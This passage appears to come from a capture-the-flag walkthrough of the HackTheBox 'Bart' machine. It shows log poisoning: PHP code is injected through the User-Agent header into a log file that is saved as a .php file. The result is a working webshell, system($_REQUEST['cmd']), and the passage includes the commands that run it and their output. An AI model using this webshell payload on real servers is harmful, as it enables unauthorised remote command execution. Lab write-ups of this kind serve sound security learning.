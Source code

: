 root@kali:~/hackthebox/bart-10.10.10.81# curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "uname=0xdf&passwd=password 


### Log Poisoning


At the Rigth a [Log] button...
Looking at the source, there’s some added code compared to the github repo:
````
<div id="log_link">
  <script>
    function saveChat() {
      // create a serialized object and send to log_chat.php. Once done hte XHR request, alert "Done"
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (xhr.readyState == XMLHttpRequest.DONE) {
            alert(xhr.responseText);
        }
    }
    xhr.open('GET', 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey', true);
    xhr.send(null);
    alert("Done");
    }
  </script>
  <a href="#" onclick="saveChat()">Log</a>
</div>
````


the application will record the username & your user-agent in a log file as seen below.

````
# python3
Python 3.6.5rc1 (default, Mar 14 2018, 06:54:23)
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> proxies={'http':'http://127.0.0.1:8080'}
>>> headers={'User-Agent':'0xdf: <?php phpinfo(); ?>'}
>>> r = requests.get('http://internal-01.bart.htb/log/log.php?filename=phpinfo.php&username=harvey', proxies=proxies, headers=headers)
````

Then visit http://internal-01.bart.htb/log/phpinfo.php: 


### PHP Webshell

So a webshell is possible:
````
>>> headers={'User-Agent':"0xdf: <?php system($_REQUEST['cmd']); ?>"}
>>> r = requests.get('http://internal-01.bart.htb/log/log.php?filename=0xdf.php&username=harvey', proxies=proxies, headers=headers)

root@kali:~/hackthebox/bart-10.10.10.81# curl http://internal-01.bart.htb/log/0xdf.php?cmd=whoami
[2018-04-28 22:55:12] - harvey - 0xdf: nt authority\iusr
````
